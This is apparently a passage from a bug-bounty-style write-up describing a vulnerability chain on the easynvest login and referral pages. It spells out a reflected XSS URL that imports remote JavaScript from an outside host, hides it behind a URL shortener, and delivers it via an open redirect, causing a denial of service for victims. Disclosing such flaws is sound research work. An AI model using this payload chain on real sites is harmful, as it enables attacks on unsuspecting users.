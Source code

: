 ![Image](/images/publications/nuinvest/4.png)

	2.	We need to get our RXSS to read/execute this JavaScript: https://indique.easynvest.com.br/?nome=><audio src="" onerror=import('//heitorgouvea.me/public/payloads/bomb.js');>&id=1
	3.	We need to direct the user to this malicious RXSS in the least suspicious way possible:
	    • With a URL shortener we can mask our payload: https://cutt.ly/syPnJXp

The final payload looks like this: https://www.easynvest.com.br/autenticacao?redirect_url=https://cutt.ly/syPnJXp

And this was the result:

<iframe width="700" height="612" src="https://www.youtube.com/embed/-L2pl1Ke_Lo" frameborder="0" allow="accelerometer; autoplay; encrypted-media; gyroscope; picture-in-picture"></iframe>

### Impact

An attacker could use this chain of vulnerabilities to generate several scenarios that present some type of risk to users of the application, and this publication addressed only one of the possible scenarios where it shows the possibility that an attacker would be able to "make" the application unavailable for a certain group of users if they accessed the link sent by it.

---

### Conclusion

The effort to carry out this exploration is relatively small and simple, but the scope of this attack is possibly great. An attacker can easily exploit the vulnerabilities mentioned above and thus disseminate a link with a malicious payload that uses the vulnerabilities in this article that generates a denial of service, and it is possible that there are also other vulnerabilities that can be exploited from the scope illustrated here.

---

### References
